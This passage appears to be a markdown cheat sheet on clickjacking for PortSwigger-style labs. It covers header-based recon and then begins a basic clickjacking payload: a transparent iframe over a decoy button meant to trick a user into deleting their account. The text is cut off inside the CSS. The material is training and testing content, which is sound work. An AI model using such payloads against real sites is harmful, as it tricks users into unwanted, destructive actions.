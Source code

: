 # Clickjacking

## Summary
* [Recon for Clickjacking](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

<br>

## Resources

* https://portswigger.net/web-security/clickjacking
* https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html

<br>

## Recon

* Identify if the application’s responses contain the following headers:
  
	* X-Frame-Options: *value*
   
	* Content-Security-Policy: frame-ancestors *value*

* If the responses do not contain these headers, then the application is most likely vulnerable to clickjacking.

* More Resources:

	* https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options

 	*  https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
  
<br>

---
---

<br>

## Cheat Sheet

<br>

### Basic Clickjacking:

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button on the targeted application.
  
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

 	* Also for the labs, the "Test me" text needed to be changed to "Click me".	 

```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 495px;
        left: 70px;
        z-index: 1;
```